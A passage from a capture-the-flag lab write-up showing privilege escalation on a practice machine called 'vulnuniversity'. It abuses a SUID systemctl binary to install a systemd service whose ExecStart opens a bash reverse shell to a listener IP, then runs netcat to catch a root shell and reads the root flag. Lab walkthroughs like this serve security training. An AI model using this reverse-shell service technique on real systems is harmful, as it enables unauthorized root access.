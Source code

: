 ```
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```

`/bin/systemctl` file stands out. Create a new service in a writtable directory. I will use `/tmp`

```
www-data@vulnuniversity:/home/bill$ cd /tmp
www-data@vulnuniversity:/tmp$ touch pwn.service
www-data@vulnuniversity:/tmp$ nano pwn.service
```

Copy the following code inside the text editor (remember to modify the IP address)

```
[Unit]
Description=pwned

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.146.180/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

When started, this service will send a connection request to the specified port. Start a listener on your machine on port 9999

```
$ nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```

Return to the compromised machine and type

```
www-data@vulnuniversity:/tmp$ systemctl enable pwn.service
www-data@vulnuniversity:/tmp$ systemctl start pwn.service
```

At this point, you should have a root shell on the listener terminal

```
$ nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.205.180 54986 received!
bash: cannot set terminal process group (13278): Inappropriate ioctl for device
bash: no job control in this shell
root@vulnuniversity:/# whoami
whoami
root
```

Let's get the root flag!

```
root@vulnuniversity:/# cat /root/root.txt
cat /root/root.txt
a58ff8579f0a9270368d33a9[redacted]
```